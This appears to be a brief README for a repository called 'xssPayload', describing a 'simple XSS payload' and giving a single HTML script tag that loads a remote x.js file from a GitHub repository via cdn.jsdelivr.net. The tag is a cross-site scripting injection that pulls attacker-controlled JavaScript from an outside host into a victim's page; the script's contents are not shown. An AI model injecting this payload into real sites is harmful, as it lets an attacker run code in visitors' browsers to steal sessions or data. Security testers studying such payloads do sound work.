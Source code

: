 # xssPayload

Simple XSS payload

## Calling from cdn.jsdelivr.net

````HTML
<script src="//cdn.jsdelivr.net/gh/recxjdv/A@B/x.js"></script>
````
